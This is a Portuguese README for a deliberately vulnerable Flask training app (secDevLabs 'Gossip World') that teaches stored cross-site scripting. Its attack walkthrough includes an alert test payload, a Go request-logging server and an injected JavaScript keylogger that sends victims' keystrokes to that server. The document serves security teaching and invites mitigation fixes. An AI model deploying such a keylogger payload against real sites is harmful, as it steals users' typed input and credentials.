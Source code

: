 # Gossip World

<p align="center">
    <img src="images/banner.png"/>
    </br>
    <a href="README.md"><img height="24" title="Access content in English" src="https://img.shields.io/badge/Access%20content%20in-English-blue"/></a>
</p>

Gossip World é um aplicativo Flask simples que contém um exemplo de vulnerabilidades de injeção múltipla (XSS) e seu principal objetivo é descrever como um usuário mal-intencionado poderia explorá-los neste aplicativo propositalmente vulnerável.

## Index

- [Gossip World](#gossip-world)
  - [Index](#index)
  - [O que é Cross Site Scripting?](#o-que-é-cross-site-scripting)
  - [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
  - [Conheça o app 💵](#conheça-o-app-)
  - [Narrativa de ataque](#narrativa-de-ataque)
    - [Nota: Esta narrativa de ataque funciona melhor no Mozilla Firefox.](#nota-esta-narrativa-de-ataque-funciona-melhor-no-mozilla-firefox)
    - [👀](#)
    - [Uma página ou aplicativo da Web é vulnerável ao XSS  se a entrada do usuário permitir scripts.](#uma-página-ou-aplicativo-da-web-é-vulnerável-ao-xss--se-a-entrada-do-usuário-permitir-scripts)
    - [🔥](#-1)
  - [Proteger este aplicativo](#proteger-este-aplicativo)
  - [PR Soluções](#pr-soluções)
  - [Contribuição](#contribuição)

## O que é Cross Site Scripting?

As falhas de XSS ocorrem sempre que um aplicativo inclui dados não confiáveis em uma nova página da Web sem validação, escape adequados, ou atualiza uma página da Web existente com dados fornecidos pelo usuário usando uma API do navegador que pode criar HTML ou JavaScript. 

O XSS permite que os invasores executem scripts no navegador da vítima que podem sequestrar sessões do usuário, desfigurar sites ou redirecionar o usuário para sites maliciosos.

O objetivo principal deste aplicativo é discutir como as vulnerabilidades de **Cross-Site Scripting** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas. Saiba mais <a href="https://owasp.org/www-community/attacks/xss/">aqui</a>.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/gossip-world
```

```sh
make install
```

Depois é só visitar [localhost:10007][app] ! 😆

## Conheça o app 💵

Para entender corretamente como esse aplicativo funciona, você pode seguir esse passo a passo:

- Criar um novo usuário
- Tente criar sua fofoca!
- Tente deixar um comentário em uma fofoca

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### Nota: Esta narrativa de ataque funciona melhor no Mozilla Firefox.

### 👀

### Uma página ou aplicativo da Web é vulnerável ao XSS  se a entrada do usuário permitir scripts.

Após inspecionar a aplicação, é possível identificar que a entrada de comentário está permitindo scripts e pode ser executada em um navegador web. Ocorre nos campos _search_, _comment_ e _post_. As imagens a seguir mostram esse comportamento quando o texto a seguir é usado como entrada nesses campos: 

```
<script>alert(1)</script>
```

Searching for a post:
<img src="images/attack-1.png" align="center"/>
<img src="images/attack-2.png" align="center"/>

Adding a new comment to a post:
<img src="images/attack-3.png" align="center"/>
<img src="images/attack-4.png" align="center"/>

Adding a new post:
<img src="images/attack-5.png" align="center"/>
<img src="images/attack-6.png" align="center"/>

A validação de entrada ausente permite que um usuário mal-intencionado insira alguns scripts que persistirão no servidor e serão executados no navegador das vítimas toda vez que acessarem as rotas que contêm esses scripts. 

### 🔥

Um invasor pode abusar dessa falha gerando um código JS malicioso e enviando-o para outros usuários. Para demonstrar isso, o exemplo a seguir obterá todas as entradas de teclado de um usuário persistindo um código malicioso no servidor.

Primeiro, a seguinte API Golang pode ser construída (main.go) que registra todas as solicitações recebidas:

```go
package main
import (
   "fmt"
   "github.com/labstack/echo"
)
func main() {
   e := echo.New()
   e.GET("/:k", handler)
   e.Logger.Fatal(e.Start(":1232"))
}
func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("k"))
   return nil
}
```

Para iniciar a API, o seguinte comando pode ser usado (você deve verificar este [guia](https://golang.org/doc/install) se precisar de ajuda com o Golang):

```sh
go run main.go
```

Em seguida, o invasor pode inserir uma nova postagem pela rota **/newgossip** usando o seguinte código no campo de texto:

```html
<script>
  var k = "";
  document.onkeypress = function (e) {
    e = e || window.event;
    k += e.key;
    var i = new Image();
    i.src = "http://localhost:1232/" + k;
  };
</script>
```

Este código implementa um keylogger para capturar todas as entradas de teclado dos usuários e enviá-las para a API criada anteriormente.

   <img src="images/attack-7.png" align="center"/>

Quando uma vítima acessa a postagem, o navegador interpreta o texto entre a tag do script como código e o executa secretamente. A imagem a seguir mostra a vítima digitando letras na página que foi "infectada" pelo JS malicioso: 

<img src="images/attack-8.png" align="center"/>

O invasor agora obtém toda a entrada no log do servidor, conforme mostrado abaixo:

<img src="images/attack-9.png" align="center"/>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Executar scripts por meio de campos de entrada

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Gossip+World%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10007
